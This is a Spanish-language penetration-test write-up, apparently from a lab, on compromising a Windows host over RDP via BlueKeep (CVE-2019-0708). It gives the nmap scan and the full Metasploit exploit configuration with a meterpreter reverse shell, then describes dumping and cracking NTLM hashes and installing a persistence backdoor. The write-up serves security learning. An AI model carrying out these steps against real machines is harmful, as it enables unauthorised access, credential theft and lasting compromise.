


# Análisis y Explotación de Vulnerabilidad en PC1

Se realizó un escaneo inicial con Nessus, sin detección de vulnerabilidades explotables. Posteriormente, se efectuó un análisis manual con nmap:

```bash
sudo nmap -sV -A -T4 192.168.1.108 

```


Esta versión de RDP es vulnerable a ataques que pueden dar **ejecución de codigo remoto** a un atacante. 

## Detección de vulnerabilidad
Se utilizó el módulo `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` de Metasploit para verificar la presencia de la vulnerabilidad conocida como BlueKeep (CVE-2019-0708), que afecta versiones antiguas de Windows.



La exploración confirmó que el objetivo es vulnerable, habilitando la posibilidad de ejecutar una explotación remota.


## Explotación del servicio RDP
Configuración del módulo de explotación en Metasploit:

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set RHOSTS 192.168.1.108
set RPORT 3389
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.107
set LPORT 4444
set VERIFY_TARGET true
set VERIFY_ARCH true
set TARGET 1
set ExitOnSession true
exploit -j
```


Con esta configuración, se logró iniciar una sesión remota estable mediante meterpreter, confirmando la explotación exitosa del sistema objetivo.


## Post explotación:

Se cargó la extensión kiwi en la sesión de Meterpreter para habilitar funcionalidades avanzadas de post-explotación, como la obtención de credenciales y hashes NTLM en memoria.



**Desencriptación de contraseñas**

Se utilizó el comando hashdump para extraer los hashes de todos los usuarios locales del sistema Windows comprometido.


Los hashes obtenidos se guardaron en un archivo y se crackearon con John the Ripper utilizando el diccionario rockyou.txt y el formato NTLM, logrando recuperar la contraseña en texto claro del usuario objetivo.


**Instalación de backdoor**

Finalmente, se configuró y ejecutó el módulo exploit/windows/local/persistence en Metasploit, estableciendo la persistencia a nivel de sistema. Esto hace que se abra una sesión Meterpreter automáticamente tras cada reinicio del equipo.


